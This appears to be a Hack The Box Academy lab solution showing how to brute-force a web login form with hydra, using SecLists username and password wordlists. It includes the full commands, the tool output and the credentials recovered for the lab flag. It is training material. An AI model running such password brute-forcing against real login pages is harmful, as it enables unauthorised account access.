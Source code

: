 Subsequently, students will download the `top-usernames-shortlist.txt` and `2023-200_most_used_passwords.txt` wordlists:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt

┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

Students will use `hydra` to perform a log-in brute-force using the `top-usernames-shortlist.txt` as the username list and `2023-200_most_used_passwords.txt` as the password list and the failure condition:

Code: shell

```shell
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f STMIP -s STMPO http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.54.201 -s 30800 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 02:17:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://94.237.54.201:30800/:username=^USER^&password=^PASS^:F=Invalid credentials
[30800][http-post-form] host: 94.237.54.201   login: admin   password: zxcvbnm
[STATUS] attack finished for 94.237.54.201 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 02:17:30
```

Students will return to the log-in page and use credentials (`admin:zxcvbnm`) to log in and attain the flag.

![[HTB Solutions/CBBH/z. images/c2f41f5c02a36f78f0429ef3e2a27dd2_MD5.jpg]]
